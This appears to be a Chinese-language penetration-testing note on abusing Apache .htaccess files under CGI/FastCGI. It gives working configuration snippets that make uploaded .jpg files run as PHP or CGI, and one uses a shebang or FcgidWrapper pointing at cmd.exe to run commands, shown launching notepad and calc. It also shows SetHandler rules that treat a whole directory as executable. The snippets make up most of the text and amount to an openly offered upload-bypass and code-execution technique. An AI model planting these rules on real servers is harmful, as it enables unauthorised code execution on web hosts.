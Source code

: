 ### 生效条件 (php 解析, 命令执行)

在`CGI/FastCGI`模式下 (在 phpinfo 中的 Server API 查看)

`.htaccess`文件配置

1.  将 jpg 后缀文件解析为 php 文件

```
AddHandler   fcgid-script .jpg
FcgidWrapper "G:/11111111gongju/phpstudy_pro/Extensions/php/php7.0.9nts/php-cgi.exe" .jpg
将php-cgi.exe路径改为对应的php版本即可
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201216100318-dd9716e2-3f42-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201216100318-dd9716e2-3f42-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201216100318-ddb938b2-3f42-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201216100318-ddb938b2-3f42-1.png)

1.  执行命令 (此方法下我无法解析 php 了)
    
    AddHandler 添加某一特殊文件后缀作为 cgi 程序
    
    ```
    .htaccess
    
    Options +ExecCGI
    AddHandler cgi-script .jpg
    
    test.jpg
    #!C:/Windows/System32/cmd.exe /c start notepad
    test
    
    必须要有两排数据 第二排随意
    
    方法二:
    打开任意文件执行命令
    Options +ExecCGI(如果配置文件中有则不用添加)
    AddHandler   fcgid-script .jpg
    FcgidWrapper "C:/Windows/System32/cmd.exe /c start calc.exe" .jpg
    ```
    
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20201216100318-dddea7d2-3f42-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201216100318-dddea7d2-3f42-1.png)
    

> 这与 apache 的 conf/vhosts 文件夹中的配置相同, 这个文件夹可以在单个 ip 创建不同域名的配置文件.

1.  使用`SetHandler`将目录下所有文件视为 cgi 程序

```
SetHandler cgi-script
或者
SetHandler   fcgid-script
FcgidWrapper "C:/Windows/System32/cmd.exe /c start calc.exe

不需要添加后缀
```
